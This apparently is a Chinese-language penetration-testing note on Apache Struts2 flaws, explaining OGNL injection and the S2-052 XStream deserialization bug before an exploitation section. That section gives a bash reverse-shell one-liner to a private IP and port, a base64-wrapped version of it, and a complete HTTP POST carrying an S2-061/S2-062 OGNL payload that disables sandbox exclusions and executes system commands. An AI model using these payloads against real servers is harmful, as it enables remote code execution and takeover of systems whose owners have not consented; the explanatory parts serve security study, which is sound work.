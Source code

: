 +++
title = 'Struts2'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'Java组件'
+++

# 一、Struts2

Struts2框架是一个用于开发Java EE网络应用程序的开放源代码网页应用程序架构。它利用并延伸了Java Servlet API，鼓励开发者采用MVC架构。Struts2以WebWork优秀的设计思想为核心，吸收了Struts框架的部分优点，提供了一个更加整洁的MVC设计模式实现的Web应用程序框架。

# 二、漏洞原理

Struts2设计了一套OGNL的模式来操作数据。OGNL（Object Graph Navigation Language）即对象图形导航语言，通过某种表达式语法，存取Java对象树中的任意属性、调用Java对象树的方法、同时能够自动实现必要的类型转化,是语义字符串与Java对象之间沟通的桥梁。OGNL支持对象方法调用，支持类静态的方法调用和值访问，在java中的格式：


@[类全名]@[方法名|值名]


@java.lang.String@format('foo %s', 'bar')| APP_NAME；

Struts2的漏洞数量众多，其本质都是一样的(除了S2-052以外)，都是Struts2框架执行了恶意用户传进来的OGNL表达式，可以造成“命令执行、服务器文件操作、打印回显、获取系统属性、危险代码执行”等，只不过需要精心构造不同的OGNL代码而已。

S2-052漏洞


这个漏洞也算是轰动一时，其实，跟注入OGNL表达式，达到远程代码执行的方式还不大一样，S2-052漏洞是一种XML反序列化漏洞。漏洞本质是Struts2 REST插件的XStream组件存在反序列化漏洞，当使用XStream组件对XML格式的数据包进行反序列化操作时，没有对数据内容进行有效验证，存在反序列化后远程代码执行安全隐患。

同时struts2的漏洞时间也很长，S2-001发现时间为2007年，而较近的S2-061时间为2020年，跨度很大。

# 三、漏洞特征

.action   .do的请求路径

# 四、漏洞利用

S2-057 以下直接梭哈：Struts2_工具v18.09

S2-061  S2-062

编写反弹shell代码





bash -i >& /dev/tcp/192.168.52.130/3333 0>&1





反弹shell涉及到管道符问题要将命令进行base64编码





bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjUyLjEzMC8zMzMzIDA+JjE=}|{base64,-d}|{bash,-i}

```
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 829

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```